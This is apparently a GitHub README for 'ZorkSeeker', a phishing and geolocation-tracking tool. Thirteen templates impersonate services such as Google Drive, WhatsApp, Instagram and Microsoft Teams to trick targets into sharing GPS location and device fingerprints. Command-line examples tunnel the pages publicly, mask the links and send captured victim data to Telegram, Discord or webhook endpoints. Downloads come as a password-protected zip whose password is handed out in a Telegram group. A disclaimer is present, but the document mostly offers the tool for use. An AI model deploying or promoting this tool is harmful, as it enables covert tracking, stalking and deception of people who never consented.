

<div align="center">


<br><br>

```
┌─=============================─┐
│      . ┌────────  ZorkSeeker  │
│   .┌───  B-Hat Zork PROJECT   │
│    Geolocation Tracking Tool  │
│  . └────  BY Zork             │
│  .     └───  VERSION 3.0.0    │
└─=============================─┘
```

# ZorkSeeker v3.0.0


 🌍 Advanced Browser Fingerprinting & Geolocation Intelligence Framework

*A professional-grade open-source OSINT tool for precision geolocation tracking, device fingerprinting, and real-time target intelligence — built for security researchers, red-teamers, and ethical hackers.*

<br>

[**⚡ Quick Start**](#-quick-start) •
[**📖 Documentation**](#-features) •
[**🎭 Templates**](#-social-engineering-templates) •
[**🔧 Installation**](#-installation) •
[**🤝 Contributing**](#-contributing)

<br>

---

### 📸 Interface Preview

<br>



<br>

---

</div>

## 🔥 What is ZorkSeeker?

**ZorkSeeker** is a next-generation OSINT framework that combines **browser fingerprinting**, **GPS-precision geolocation**, and **real-time intelligence gathering** into a single, elegant tool. It deploys convincing social engineering pages that prompt targets to share their location - then captures **60+ data points** including device specs, network info, and exact GPS coordinates.

Built from scratch with a modular Python architecture, it works seamlessly across **Windows**, **Linux**, and **Termux (Android)**.

<br>

## ⚡ Features

<table>
<tr>
<td width="50%">

### 🎯 Core Intelligence
- **GPS Geolocation** — High-accuracy lat/long with altitude, speed & direction
- **60+ Browser Fingerprints** — OS, GPU, CPU cores, RAM, canvas, audio FP
- **IP Intelligence** — ISP, org, country, city via multi-API lookup
- **Real-time Dashboard** — Live mission control panel in browser
- **Multi-session Tracking** — Track unlimited targets simultaneously

</td>
<td width="50%">

### 🛡️ Infrastructure
- **5 Tunnel Methods** — Ngrok, Cloudflared, LocalXpose, Serveo, localhost.run
- **URL Masking** — Custom domain overlay + 5 shortener services
- **QR Code Generation** — Scannable QR with terminal ASCII display
- **Instant Alerts** — Telegram, Discord & Webhook notifications
- **HTML/CSV/JSON/KML Reports** — Export intelligence in any format

</td>
</tr>
</table>

<br>

### 📊 What ZorkSeeker Captures

```
╔══════════════════════════════════════════════════════════════╗
║  DEVICE FINGERPRINT          NETWORK & LOCATION             ║
║  ─────────────────           ──────────────────             ║
║  • Operating System          • GPS Coordinates (lat/lon)    ║
║  • Browser & Version         • Accuracy & Altitude          ║
║  • CPU Cores & RAM           • Speed & Direction            ║
║  • GPU Vendor & Renderer     • Public & Local IP            ║
║  • Screen Resolution         • ISP & Organization           ║
║  • Canvas Fingerprint        • Country / Region / City      ║
║  • Audio Fingerprint         • Connection Type & Speed      ║
║  • Touch Support             • Timezone & Language          ║
║  • Battery Level             • VPN/Proxy Detection          ║
║  • Camera/Mic/Speaker Count  • Ad Blocker Status            ║
╚══════════════════════════════════════════════════════════════╝
```

<br>

## 📦 Installation

### 🔐 Step 1 — Get the Password

The release `.zip` is **password-protected**. To get the password:

<div align="center">

[](https://t.me/quickbreach)

**👉 [t.me/quickbreach](https://t.me/quickbreach)**

</div>

> Join the group → get the zip password → extract the files.

---

### 🐧 Linux / 📱 Termux

```bash
# 1. Run the installer (auto-installs everything)
chmod +x install.sh
bash install.sh

# 2. Install Requirements
pip install -r requirements.txt

#3 Run the Script
python zorktracker.py
```

### 🪟 Windows

```bash
# 1. Extract the zip using the password from Telegram group
# 2. Open terminal in the extracted folder

pip install -r requirements.txt
python zorktracker.py
```

### 🔧 Manual Dependency Install (Optional)

```bash
pip install flask requests pyngrok qrcode Pillow packaging pyshorteners
```

<br>

## 🚀 Quick Start

### Interactive Mode (Recommended)

```bash
python zorktracker.py
```

This launches the interactive menu where you can:
1. Select a social engineering template
2. Choose a tunneling method
3. Configure URL masking
4. Generate QR codes
5. Review & launch

### CLI Mode (Advanced)

```bash
# Direct attack with Ngrok tunnel
python zorktracker.py -t 0 --tunnel

# With Telegram alerts
python zorktracker.py -t 0 --tunnel -tg "BOT_TOKEN:CHAT_ID"

# With Discord webhook
python zorktracker.py --tunnel -dc "https://discord.com/api/webhooks/..."

# Custom port + QR code + report
python zorktracker.py -p 9090 --tunnel --qr --report

# Specific tunnel method (Cloudflared)
python zorktracker.py --tunnel --tunnel-method 2
```

### Environment Variables

```bash
export PORT=8080
export TUNNEL=1
export NGROK_TOKEN="your_token"
export TELEGRAM="botToken:chatId"
export DISCORD="webhook_url"
```

<br>

## 🎭 Social Engineering Templates

ZorkSeeker includes **13 professionally crafted** phishing templates:

| # | Template | Description | Customizable |
|:-:|----------|-------------|:------------:|
| 0 | **NearYou** | Find people near you — location discovery | — |
| 1 | **Google Drive** | File sharing access request page | `redirect_url` |
| 2 | **Zoom Meeting** | Meeting join page | — |
| 3 | **WhatsApp Group** | Group invite page | `title`, `image`, `members` |
| 4 | **Google reCAPTCHA** | Verification challenge page | `redirect_url` |
| 5 | **Telegram Group** | Channel/group invite page | `title`, `members` |
| 6 | **Instagram Profile** | Profile & story viewer | `username`, `bio`, `profile_pic` |
| 7 | **Custom Link** | Custom OG tags + auto-redirect | `title`, `image`, `description` |
| 8 | **YouTube Live** | Live stream broadcast page | — |
| 9 | **Netflix Party** | Watch party invite | — |
| 10 | **Dropbox Share** | Shared file download page | — |
| 11 | **Microsoft Teams** | Meeting join page | — |
| 12 | **Spotify Playlist** | Shared playlist page | — |

> 💡 **Custom Template:** Use template #7 to create your own page with custom title, image, description, and redirect URL.

<br>

## 🌐 Tunneling Methods

| # | Method | Auth Required | Best For |
|:-:|--------|:-------------:|----------|
| 1 | **Ngrok** | ✅ Token | Stable, reliable tunneling |
| 2 | **Cloudflared** | ❌ | Quick setup, no account needed |
| 3 | **LocalXpose** | ✅ Token | Alternative to Ngrok |
| 4 | **Serveo** | ❌ | SSH-based, lightweight |
| 5 | **localhost.run** | ❌ | SSH-based, zero config |

```
🔒 Ngrok      → pyngrok (pip) or binary
☁️  Cloudflared → pkg install cloudflared (Termux) | apt install cloudflared
🌐 LocalXpose → Auto-installed via install.sh
🔗 Serveo     → Requires SSH only
🔗 localhost   → Requires SSH only
```

<br>

## 📡 Notification Channels

### Telegram Bot
```bash
python zorktracker.py --tunnel -tg "123456789:ABCdef_TOKEN:987654321"
#                                  └─ bot token ─┘  └─ chat id ─┘
```

### Discord Webhook
```bash
python zorktracker.py --tunnel -dc "https://discord.com/api/webhooks/ID/TOKEN"
```

### Generic Webhook (POST)
```bash
python zorktracker.py --tunnel -wh "https://your-server.com/hook"
```

All channels receive:
- 🔍 Device fingerprints
- 🌍 IP intelligence
- 📍 GPS coordinates
- ⚠️ Error alerts

<br>


<br>

## 🖥️ Live Dashboard

ZorkSeeker includes a **real-time web dashboard** for monitoring active sessions:

```
http://localhost:8080/dashboard
```

Dashboard features:
- 📊 Live session counter
- 🗺️ Interactive location map
- 📱 Device fingerprint cards
- 🔄 Auto-refresh data feed
- 🌙 Dark hacker theme

<br>

## 🔧 CLI Reference

```
usage: zorktracker.py [-h] [-p PORT] [-t TEMPLATE] [-k KML] [-v] [-d]
                      [--tunnel] [--tunnel-method {1,2,3,4,5}]
                      [--tunnel-token TOKEN] [--mask] [--mask-domain DOMAIN]
                      [--qr] [-tg TELEGRAM] [-dc DISCORD] [-wh WEBHOOK]
                      [--report]

Options:
  -p, --port            Server port (default: 8080)
  -t, --template        Template number (skip selection menu)
  -k, --kml             KML output filename
  -v, --version         Print version and exit
  -d, --debug           Disable HTTPS redirect (testing)
  --tunnel              Enable public URL tunnel
  --tunnel-method       1=Ngrok 2=Cloudflared 3=LocalXpose 4=Serveo 5=localhost.run
  --tunnel-token        Ngrok authentication token
  --mask                Enable URL masking
  --mask-domain         Custom domain for URL mask
  --qr                  Generate QR code
  -tg, --telegram       Telegram alerts (format: botToken:chatId)
  -dc, --discord        Discord webhook URL
  -wh, --webhook        Generic webhook URL
  --report              Generate HTML report on exit
```

<br>

## 🔒 Responsible Use

> **⚠️ LEGAL DISCLAIMER**
>
> ZorkSeeker is designed for **authorized security testing**, **red team operations**, and **educational research** only. Usage of this tool against targets without **explicit written consent** is **illegal** and **unethical**.
>
> The developers assume **no liability** for misuse of this tool. Always obtain proper authorization before conducting any security assessments.

**Intended use cases:**
- ✅ Authorized penetration testing
- ✅ Red team exercises with written scope
- ✅ Security awareness training
- ✅ Academic research in controlled environments
- ❌ Unauthorized surveillance
- ❌ Stalking or harassment
- ❌ Any illegal activity

<br>

## 🤝 Contributing

Contributions are welcome! Here's how you can help:

1. **Fork** the repository
2. **Create** a feature branch: `git checkout -b feature/amazing-feature`
3. **Commit** your changes: `git commit -m 'Add amazing feature'`
4. **Push** to branch: `git push origin feature/amazing-feature`
5. **Open** a Pull Request

### Ideas for contribution:
- 🆕 New social engineering templates
- 🌐 Additional tunneling backends
- 📊 Dashboard improvements
- 🐛 Bug fixes & optimizations
- 📝 Documentation improvements

<br>

## 📊 Compatibility

| Platform | Status | Notes |
|----------|:------:|-------|
| **Windows 10/11** | ✅ Fully Supported | Python 3.8+ required |
| **Ubuntu / Debian** | ✅ Fully Supported | `bash install.sh` for auto-setup |
| **Kali Linux** | ✅ Fully Supported | Pre-installed Python & tools |
| **Arch Linux** | ✅ Fully Supported | `pacman` auto-detected |
| **Termux (Android)** | ✅ Fully Supported | Full tunnel + proot DNS fix |
| **macOS** | ✅ Supported | `brew` auto-detected |

<br>

## 🙏 Credits & Acknowledgements

Some templates in ZorkSeeker are based on the original **[Seeker](https://github.com/thewhiteh4t/seeker)** project by **[@thewhiteh4t](https://github.com/thewhiteh4t)**. Huge respect for the foundational work.

| Template | Credit |
|----------|--------|
| **NearYou** | Original by [@thewhiteh4t](https://github.com/thewhiteh4t) |
| **Google Drive** | Suggested by [@Akaal_no_one](https://github.com/Akaal-no-one) |
| **WhatsApp** | Suggested by [@Dazmed707](https://github.com/Dazmed707) |
| **Telegram** | Original by [@thewhiteh4t](https://github.com/thewhiteh4t) |
| **Zoom** | Made by [@a7maadf](https://github.com/a7maadf) |
| **Google reCAPTCHA** | Made by [@MrEgyptian](https://github.com/MrEgyptian) |

> All other templates (Instagram, YouTube, Netflix, Dropbox, Teams, Spotify, Custom Link) are original creations by **Zork**.

<br>

## ⭐ Star History

If you find ZorkSeeker useful, please consider giving it a ⭐ — it helps the project grow!

<div align="center">

[](https://star-history.com/#samay825/ZorkSeeker&Date)

</div>

<br>

---

<div align="center">

**Built with ❤️ by [Zork](https://github.com/samay825)**


<br><br>

*ZorkSeeker v3.0.0 — Track. Fingerprint. Dominate.*

</div>
